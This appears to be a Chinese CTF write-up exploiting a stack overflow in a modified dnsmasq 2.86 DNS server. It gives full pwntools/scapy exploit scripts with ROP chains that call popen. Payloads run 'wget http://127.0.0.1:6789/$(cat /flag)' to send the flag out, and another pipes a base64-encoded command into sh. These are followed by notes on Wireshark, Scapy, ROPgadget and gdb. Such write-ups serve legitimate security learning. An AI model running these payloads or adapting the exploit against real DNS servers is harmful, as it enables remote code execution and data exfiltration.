

这个题涉及的知识点较多（对我来说），有没见过的利用方法/思路，有见过但还不够熟悉的点。所以还花了蛮多时间慢慢调试的。
一个dns服务器，通过dig发送一条dns请求报文进行通信
分析dns，根据提示，是dnsmasq。下载对应版本源码，并修改编译选项，编译后使用bindif进行比较
比较找到可疑漏洞点memcpy
使用gdb下断点调试memcpy处
使用wireshark抓dig与dns的通信报文，并用scapy重放
找到关键字段，更改后给dns发送恶意报文
超长报文覆盖返回地址，dns程序崩溃。于是得到了任意代码执行权限
无法泄露信息，考虑ROP利用
题目附件运行情况如下，dns是一个dns解析器，我们可以控制发送给它的请求报文内容。

dig程序将报文发送的细节给封装了起来，而我们需要控制发送报文的每一个字节。
因此，使用wireshark抓包。然后，更改报文内容，重新发送。
详情见【wireshark+scapy处理网络数据包】章节。
找漏洞有两种方法：
类fuzz法：随机改变发送报文的内容，测试能否让dns服务崩溃（看运气）
代码检视：一点点逆向它的逻辑速度太慢，确认它是dnsmasq 2.86后，可以使用bindiff比对
这里我们使用第二种方法。
下载dnsmasq 2.86软件包并编译：
1 2 3 4 5 6 7 8 wget https://thekelleys.org.uk/dnsmasq/dnsmasq-2.86.tar.gz tar -zxvf dnsmasq-2.86.tar.gz cd dnsmasq-2.86make
编译完成后，使用函数级diff工具 bindiff
发现一个大大的memcpy，于是通过 gdb -p <dns-pid> attach到dns进程，在 b *0804F444 处下断点，观察发送的数据中哪个部分会送到这块进行处理。
将断点打在memcpy处进行调试
1 2 3 4 5 6 7 8 ./dns -C ./dns.conf ps -ef | grep dns sudo gdb -p <dns pid> > b *0x0804F444 > c dig @127.0.0.1 -p 9999 baidu.com
断点情况如下
拷贝完成后的栈空间：
根据该漏洞函数中dest的位置，定位ebp和返回地址的内存位置
1 2 3 4 5 6 7 8 9 int __cdecl sub_804F345 (int a1, int a2, int a3, void *src, int a5, int a6) char *v7; char *v8; char *v9; unsigned __int8 *v10; unsigned __int8 *v11; unsigned __int8 *v12; char dest[848 ];
计算得到ebp存放地址：0xffa650b7 + 0x381 = 0xffa65438
查看该栈地址附近内存情况，找到返回地址存放在0xffa6543c处，计算偏移：0xffa6543c - 0xffa650b7 = 0x385
通过python脚本发送恶意构造的报文，使输入数据覆盖 sub_804F345 的返回地址。（本题没开canary）
需要注意几点：
域名中一定包含”.”，点和点之间最多存放0x3f字节的数据
“.”在传输过程中，被替换成了后一串字符的实际长度（wireshark抓包发现）
dns报文中Raw数据的总长度，不能超过0x400（sub_804F345函数中有检查）
这个脚本可以将返回地址覆盖成g.ab
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 from pwn import *from scapy.all import *context(arch="i386" ,os="linux" ,log_level="debug" ) io = remote("127.0.0.1" ,9999 ,typ="udp" ) packet = rdpcap("./dns_catch.pcapng" ) byte_data = packet[2 ][Raw].load dns_data = DNS(byte_data) patch = b"ls > /tmp/x #" .ljust(0x3f ,b";" )+b"." shellcode1 = patch*13 +b'ls > /tmp/x #iiiiiiiiiiiiiiii' +'erty' +b'ooooooooooooooooooooooo.bnmk' +';;.b' +b"cde." shellcode2 = p32(0x11111111 ) name_seg = shellcode1 + shellcode2 dns_data.qd = DNSQR(qname=name_seg,qtype=1 ,qclass=1 ) byte_send = raw(dns_data) io.sendline(byte_send) io.interactive()
DNS域名长度限制说明以及实验室实战
Common DNS return codes for any DNS service
Wireshark分析DNS协议
DNS QUERY MESSAGE FORMAT
DNS原理及其解析过程
经过测试，dns请求报文中，域名字段，通过"."分隔开，点与点之间的字符个数必须<=0x3f
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 from pwn import *context(arch="i386" ,os="linux" ,log_level="debug" ) io = remote("127.0.0.1" ,9999 ,typ="udp" ) patch = b"\x3f" +b"a" *0x3f a_1 = b"\x24\xb4\x01\x20\x00\x01\x00\x00\x00\x00\x00\x01" a_2 = patch*14 +b"\x04" +b"bcde" a_3 = b"\x00\x00\x01\x00\x01\x00\x00\x29\x10\x00\x00\x00\x00\x00\x00\x0c\x00\x0a\x00\x08\xbe\x1c\x51\x4d\x75\xab\x0c\x7f" shellcode = b"\x04" +b"ghij" a = a_1 + a_2 + shellcode + a_3 io.sendline(a) io.interactive()
不直接将wget字符串写在bss段给popen调用的原因：利用0x0804b2bb这条gadget写入时，一次攻击最多只能写20字节，无法写完wget请求的完整字符串。
有用gadget，可以往任意地址写值：
1 0x0804b2bb : mov dword ptr [eax], edx ; ret
往bss段写入内容：
将bss段地址pop给eax
将待写入内容（4bytes）pop给edx
最后调popen执行写入的内容：
方法1，将参数写死在栈上（bss段地址和字符串”r”的地址已知）
方法2，将参数分别pop给eax和edx，然后跳转到如下gadget
1 2 3 0x08071802 : push edx ; modes 0x08071803 : push eax ; command 0x08071804 : call _popen
完整EXP如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 from pwn import *from scapy.all import *context(arch="i386" ,os="linux" ,log_level="debug" ) packet = rdpcap("./dns_catch.pcapng" ) byte_data = packet[2 ][Raw].load pop_eax_ret = 0x08059d44 pop_edx_ret = 0x0807ec72 mov_eax_edx_ret = 0x0804b2bb bss_data_addr = 0x80a72d0 nop_2e_ret = 0x0804a92e str_r_addr = 0x809c7b2 popen_plt_addr = 0x0804AB40 exit_addr = 0x0804AD30 def arw4 (addr,value ): shellcode = p32(pop_eax_ret) + p32(addr) + p32(pop_edx_ret) + value + p32(mov_eax_edx_ret) return shellcode def call_popen (commands,modes ): shellcode = p32(popen_plt_addr) + p32(exit_addr) + p32(commands) + p32(modes) return shellcode def pack_payload5 (mycmd ): payload = arw4(bss_data_addr,mycmd[0 :4 ]) payload += arw4(bss_data_addr+4 ,mycmd[4 :8 ]) payload += arw4(bss_data_addr+8 ,mycmd[8 :12 ]) payload += p32(nop_2e_ret) payload += arw4(bss_data_addr+12 ,mycmd[12 :16 ]) payload += arw4(bss_data_addr+16 ,mycmd[16 :20 ]) payload += call_popen(bss_data_addr,str_r_addr) return payload def pack_payload4 (mycmd ): payload = arw4(bss_data_addr,mycmd[0 :4 ]) payload += arw4(bss_data_addr+4 ,mycmd[4 :8 ]) payload += arw4(bss_data_addr+8 ,mycmd[8 :12 ]) payload += p32(nop_2e_ret) payload += arw4(bss_data_addr+12 ,mycmd[12 :16 ]) payload += call_popen(bss_data_addr,str_r_addr) return payload def pack_payload2 (mycmd ): payload = arw4(bss_data_addr,mycmd[0 :4 ]) payload += arw4(bss_data_addr+4 ,mycmd[4 :8 ]) payload += p32(nop_2e_ret) payload += call_popen(bss_data_addr,str_r_addr) return payload def send_pack (payload ): io = remote("59.63.224.108" ,9999 ,typ="udp" ) dns_data = DNS(byte_data) name_seg = b'a' *0x385 + payload dns_data.qd = DNSQR(qname=name_seg,qtype=1 ,qclass=1 ) byte_send = raw(dns_data) io.sendline(byte_send) io.close() sleep(18 ) test_str = b"wget http://127.0.0.1:6789/$(cat /flag)" i = 0 while i<(len (test_str)-1 ): target = test_str[i:i+2 ] mycmd1 = b'echo -n "' +target+b'">>/tmp/y' payload1 = pack_payload5(mycmd1) send_pack(payload1) i+=2 ch_exec_cmd = b"chmod u+x /tmp/y" payload2 = pack_payload4(ch_exec_cmd) send_pack(payload2) exec_cmd = b"/tmp/y " payload3 = pack_payload2(exec_cmd) send_pack(payload3)
拿到flag
上面的方法需要多次跟服务器交互发送报文，由于发送的报文会导致dns服务重启，下一次发送需等待至少15秒，速度极慢。考虑存不存在ROP链能实现发送一次报文就成功利用。
控制流劫持时，寄存器情况如下：
1 2 3 4 5 6 7 8 9 $eax : 0xffffffff$ebx : 0xffffffff$ecx : 0xffb3d140 → ";;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;.ls > /tmp/x" $edx : 0xffb3ce67 → "ls > /tmp/x #;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;[...]" $esp : 0xffb3d1ec → 0x11111111$ebp : 0x2e656463 ("cde." ?)$esi : 0x09fe69c0 → 0x00002910$edi : 0xf7f58000 → 0x001ead6c$eip : 0x0804f613 → ret
目标gadget “call popen”的参数分别存在eax和edx中：
1 2 3 .text:08071802 push edx ; modes .text:08071803 push eax ; command .text:08071804 call _popen
eax我们通过输入就能直接控制，edx中存着command的地址。如果它们能把edx的值给eax就好了。
寻找跟edx与eax相关的操作指令，如mov，add，sub，xchg等。
1 2 3 4 5 $ ROPgadget --binary ./dns | grep add | grep edx | grep ret ...... 0x0804b639 : add eax, edx ; add esp, 0x10 ; pop ebx ; pop ebp ; ret 0x0808787b : add eax, edx ; leave ; ret ......
于是发现了0x804b639这条gadget。
调试过程中发现两个问题：
add eax,edx后，需要给eax加1。于是通过0x08056434这条gadget配合给eax的初始值来调整
1 2 0x08056434 : add eax, 0x1b8 ; add cl, cl ; ret 0x0804c29a : adc al, 1 ; ret 0x458b
在执行popen函数过程中，command由于在低地址，被新的数据覆盖了，导致无法成功执行命令。
于是需要将command放在我们payload的后面（栈的高地址空间按），并调整一下eax的值
最终利用脚本如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 from pwn import *from scapy.all import *context(arch="i386" ,os="linux" ,log_level="debug" ) io = remote("127.0.0.1" ,9999 ,typ="udp" ) eax_init = 0xf7f593d5 g_adjust_eax = 0x0804b319 g_add_eax_edx = 0x0804b639 g_pop_edx = 0x0807ec72 r_addr = 0x809c7b2 g_popen_addr = 0x08071802 def construct_pkg (input_str ): start_dns = b"\x24\xb4\x01\x20\x00\x01\x00\x00\x00\x00\x00\x01" end_dns = b"\x00\x00\x01\x00\x01\x00\x00\x29\x10\x00\x00\x00\x00\x00\x00\x0c\x00\x0a\x00\x08\xbe\x1c\x51\x4d\x75\xab\x0c\x7f" patch = b"\x3f" +b"a" *0x3f shellcode1 = patch*13 + b"\x3f" + b'a' *29 +p32(eax_init) + b'a' *30 + b"\x04" + b"a" *4 shellcode2 = b"\x2c" + p32(g_add_eax_edx)+p32(0xffffffff )+p32(0xffffffff )+p32(0xffffffff )\ +p32(0xffffffff )+p32(0xffffffff )+p32(0xffffffff )\ +p32(g_adjust_eax)+p32(g_pop_edx)+p32(r_addr)+p32(g_popen_addr) cmd_str = chr (len (input_str)+3 ).encode() + b"a" *3 + input_str payload = start_dns + shellcode1 + shellcode2 + cmd_str + end_dns return payload input_str = b"echo d2dldCAxMjcuMC4wLjEvZmxhZ3t0ZXN0fQo=|base64 -d|sh" payload = construct_pkg(input_str) io.send(payload) io.interactive()
Ubuntu 上 Wireshark 的安装与使用
安装wireshark并抓包
1 2 3 sudo apt show wireshark sudo apt install wireshark sudo wireshark
dig访问本地9999端口调用dns解析服务，用wireshark抓包。先后访问了两次，得到如下报文：dns_catch.pcapng
Data段未自动解析成dns报文（因端口非默认的53），因此按如下步骤将dns udp对应的端口设置成9999
选中DNS，改UDP ports为9999
解析成功，如下：
Python Scapy 报文构造和解析
地表最强数据包工具–Scapy基础篇
网络工具-Scapy使用介绍
盘点一款Python发包收包利器——Scapy
Python学习：scapy库的Packet与str相互转换
在python中引入scapy库
1 2 3 4 5 6 7 8 9 10 from scapy.all import *packet = rdpcap("./dns_catch.pcapng" ) packet.summary() packet[0 ].show() print(packet[3 ][Ether].src) print(packet[3 ][IP].src) print(ls()) print(lsc()) show_interfaces()
用scapy交互操作网络数据包，读取pcap文件中Raw部分，并按DNS格式解析
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 from pwn import *from scapy.all import *context(arch="i386" ,os="linux" ,log_level="debug" ) io = remote("127.0.0.1" ,9999 ,typ="udp" ) packet = rdpcap("./dns_catch.pcapng" ) byte_data = packet[2 ][Raw].load dns_data = DNS(byte_data) dns_data.show() dns_data.qd = DNSQR(qname="qqqqqq.aaaaa.sssss.com.ddddd.dddddd" ,qtype=1 ,qclass=1 ) byte_send = raw(dns_data) io.sendline(byte_send) io.interactive()
用pwntools发送一个合法的包
1 2 3 4 5 6 7 8 9 10 from pwn import *context(arch="i386" ,os="linux" ,log_level="debug" ) io = remote("127.0.0.1" ,9999 ,typ="udp" ) a = "\x24\xb4\x01\x20\x00\x01\x00\x00\x00\x00\x00\x01\x05\x62\x61\x69\x64\x75\x03\x63\x6f\x6d\x00\x00\x01\x00\x01\x00\x00\x29\x10\x00\x00\x00\x00\x00\x00\x0c\x00\x0a\x00\x08\xbe\x1c\x51\x4d\x75\xab\x0c\x7f" io.sendline(a) io.interactive()
一种方法是使用 --only 指定
1 2 3 4 5 6 7 8 ROPgadget --binary ./dns --only "pop|ret" ROPgadget --binary ./dns --only "mov|ret" ROPgadget --binary ./dns --only "xchg|ret" ROPgadget --binary ./dns --only "add|ret" ROPgadget --binary ./dns --only "sub|ret" ROPgadget --binary ./dns --only "inc|ret" ROPgadget --binary ./dns --only "dec|ret"
另一个种方法是直接 grep
例如，本题中找到带0x2e的nop+ret指令，可以用如下命令：
1 2 3 4 5 6 7 $ ROPgadget --binary ./dns | grep 2e | grep nop 0x08052e0e : inc ebp ; nop ; jmp 0x8052ea8 0x08052eb5 : nop ; add byte ptr [ebp + 0x4d], dh ; jmp 0x8052ec8 0x08052eb2 : nop ; cmp dword ptr [ebp - 0x70], 0 ; jne 0x8052f0d ; jmp 0x8052ecb 0x08052e0f : nop ; jmp 0x8052ea7 0x0808cc29 : nop ; jmp 0x808cc2e 0x0804a92e : nop ; ret
函数级diff工具：bindiff
结合IDA一起使用
1、正常使用gdb启动程序
2、正常启动程序，使用gdb attach
1 2 3 4 5 ./xxx ps -ef | grep xxx gdb -p <xxx pid>
3、正常启动程序，使用gdbserver attach，后使用gdb连接
1 2 3 4 5 6 7 8 ./xxx ps -ef | grep xxx gdbserver :1234 --attach <xxx pid> gdb > target remote :1234
4、【多进程】启动程序时指明不开启子进程
5、设置gdb调试多进程/多线程
GDB 调试多进程或者多线程应用
1 2 3 4 5 6 7 set follow-fork-mode [parent|child] set detach-on-fork [on|off] show follow-fork-mode show detach-on-fork info inferiors info threads thread <thread number>
使用strace跟踪多进程程序
1 strace -ff -o test.txt ./dns -C ./dns.conf